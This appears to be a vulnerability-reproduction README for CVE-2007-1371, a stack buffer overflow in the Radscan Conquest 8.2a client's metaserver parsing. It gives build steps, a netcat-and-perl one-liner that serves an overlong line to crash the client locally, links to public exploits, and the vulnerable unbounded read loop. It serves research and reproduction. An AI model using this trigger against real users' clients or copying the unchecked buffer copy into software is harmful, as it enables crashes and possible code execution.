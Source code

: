 # CVE-2007-1371

## Experiment Environment



## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2007-1371/conquest-8.2a.tar.gz
tar -xvf conquest-8.2a.tar.gz
cd conquest-8.2a
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

Server:

```
perl -e 'print "a"x1200' | nc -l -p 1700 -v -v -n
```

Client:

```
conquest -m -M 127.0.0.1
```

## PoCs

[Radscan Conquest Multiple Remote Vulnerabilities](https://www.securityfocus.com/bid/22855/exploit)

[radscan conquest 8.2 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/29717/)

## Vulnerability Patch

### Root Cause

The Conquest client has an option (-m) for the querying of the
metaserver conquest.radscan.com on which are listed the servers
currently online but the program allows the usage of alternative
metaservers too.

The function which reads the data received from the metaserver is
affected by a stack based buffer-overflow which happens during the
storing of the line containing the server's entry in a buffer (buf) of
1024 bytes.

355  int metaGetServerList(char *remotehost, metaSRec_t **srvlist) 
356  {   
       ......
398    if ( connect ( s, (const  struct sockaddr *)&sa, sizeof ( sa ) ) < 0 )     
399      {                                                                        
400        clog("metaGetServerList: connect failed: %s", strerror(errno));        
401        return ERR;                                                            
402    }                                                                          
403                                                                               
404                                                                               
405    off = 0;                                                                   
406    while (read(s, &c, 1) > 0)                                                 
407      {                                                                        
408        if (c != '\n')                                                         
409          {                                                                    
410            buf[off++] = c;                                                    
411          }                                                                    
412        else                                                                   
413          {                       /* we got one */                             
414            buf[off] = 0;                                                      
415                                                                               
416            /* convert to a metaSRec_t */                                      
417            if (str2srec(&servers[nums], buf))                                 
	       ......
423          }                                                                    
424      }                                               

### Stack Trace

### Patch

## References
